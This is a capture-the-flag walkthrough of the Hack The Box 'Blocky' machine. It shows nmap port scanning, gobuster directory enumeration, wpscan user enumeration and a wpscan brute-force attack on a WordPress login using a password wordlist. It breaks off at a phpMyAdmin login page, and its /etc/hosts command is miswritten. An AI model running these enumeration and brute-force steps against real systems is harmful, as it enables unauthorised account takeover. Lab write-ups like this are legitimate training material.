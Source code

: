 ![image](https://github.com/alonpresman/AlonPresman/assets/121765218/63dee308-74d3-4f3b-84c6-16bbc4e10782)# Blocky | HTB
### Difficulty Level: Easy 
----------------------------------

Start with nmap scan: 

```bash
nmap -p- -T4 -A 10.10.10.37 -oN blocky.nmap
```

-p- scans all ports instead of the 1000 common ports.

-T4 - increases the scan's speed.

-A - aggressive scan to gather more inforamtion about the system.

-oN - saves the output to file.

Results:
```bash
Nmap scan report for 10.10.10.37
Host is up (0.11s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 3.16 (90%), Linux 3.16 - 4.6 (90%), Linux 3.12 (89%), Linux 3.2 - 4.9 (89%), Linux 3.8 - 3.11 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT       ADDRESS
1   112.87 ms 10.10.14.1
2   113.13 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 769.45 seconds
```
There are 4 open ports:

21 - FTP 

22 - SSH

80 - HTTP

25565 - MINECRAFT

While browse into the web page, I could not access it so add the ip-address to the 
/etc/hosts file with:

```bash
echo '10.10.10.37'     blocky.htb
```

There is a webpage under construction.


![image](https://cdn-images-1.medium.com/max/1000/1*N4TOEPj359KkVI8m8TmVYA.png)

So, use gobuster to enumerate directories within the system.

```bash
gobuster dir -u http://blocky.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
Progress: 25176 / 220561 (11.41%)
[!] Keyboard interrupt detected, terminating.
Progress: 25176 / 220561 (11.41%)
===============================================================
Finished
```

let's navigate to /wp-admin, and there is wp-login page.

![image](https://cdn-images-1.medium.com/max/1000/1*RWW8gheMoxzx2U-G0eTvUA.png)

it's time to use wpscan to get the usernames that have wp accounts.

```bash
wpscan --url http://blocky.htb --enumerate u
```

Results:
```bash
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Notch
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)****
```

There is a username: notch. 

brute force to get the password with:

```bash
wpscan --url http://blocky.htb -U notch -P /usr/share/wordlists/rockyou.txt
```

While attacking, we need to think about another way to achieve the goal.

There is phpmyadmin login page.


![image](https://cdn-images-1.medium.com/max/1000/1*PUHin7COlBautApkw8IKEg.png)


phpMyAdmin is a free and open-source web-based application written in PHP,
designed to provide a graphical interface for managing MySQL and MariaDB databases.























